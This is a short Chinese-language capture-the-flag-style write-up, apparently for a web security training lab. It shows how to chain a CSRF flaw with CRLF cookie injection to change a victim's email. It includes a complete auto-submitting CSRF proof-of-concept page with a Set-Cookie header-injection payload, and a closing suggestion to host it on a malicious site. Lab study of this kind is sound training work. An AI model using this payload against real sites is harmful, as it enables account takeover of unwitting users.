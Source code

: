 

![](images/3B804C823B164AC3A4B104B091D074AAclipboard.png)

将用户一的csrfkey和csrf用用户二的替换，还可以执行更改密码操作，说明存在csrf



执行搜索时发现输入的搜索值会包含到响应头里，可以尝试cookie注入

![](images/F04D28EEE032403CB7E7248E15F28253clipboard.png)





利用脚本：

```javascript
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://ac7c1f0a1e8ad4e880c62ed200870076.web-security-academy.net/email/change-email" method="POST">
      <input type="hidden" name="email" value="123&#64;qq&#46;com" />
      <input type="hidden" name="csrf" value="nGrpG4PjPWlzPrghnZsFEAmytn7lmmz5" />
      <input type="submit" value="Submit request" />
    </form>
    //自动访问src，执行cookie注入
<img src="https://ac7c1f0a1e8ad4e880c62ed200870076.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=LZJbJ7KOYDPeUD9JWQqmAH8QA3Dd1bNq" onerror="document.forms[0].submit()">
  </body>
</html>

```



将脚本部署到恶意网站上，诱使用户点击即可更改用户email